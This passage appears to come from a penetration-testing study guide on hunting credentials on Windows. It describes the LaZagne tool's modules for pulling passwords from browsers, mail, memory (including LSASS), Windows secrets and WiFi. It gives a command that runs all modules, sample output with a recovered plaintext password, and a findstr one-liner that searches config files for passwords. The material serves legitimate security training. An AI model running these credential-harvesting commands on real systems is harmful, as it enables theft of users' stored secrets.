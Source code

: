 #### LaZagne

[LaZagne](https://github.com/AlessandroZ/LaZagne) to quickly discover credentials that web browsers or other installed applications may insecurely store. LaZagne is made up of `modules` which each target different software when looking for passwords. 

|Module    | Description																					   |
|----------|---------------------------------------------------------------------------------------------------|
|browsers  | Extracts passwords from various browsers including Chromium, Firefox, Microsoft Edge, and Opera   |
|chats 	   | Extracts passwords from various chat applications including Skype								   |
|mails 	   | Searches through mailboxes for passwords including Outlook and Thunderbird						   |
|memory    | Dumps passwords from memory, targeting KeePass and LSASS  										   |
|sysadmin  | Extracts passwords from the configuration files of various sysadmin tools like OpenVPN and WinSCP |
|windows   | Extracts Windows-specific credentials targeting LSA secrets, Credential Manager, and more         |
|wifi 	   | Dumps WiFi credentials  																		   |

```bash
C:\Users\sam\Desktop> start LaZagne.exe all
```

##### Example

```bash
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```

#### findstr

```bash
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

### Additional considerations
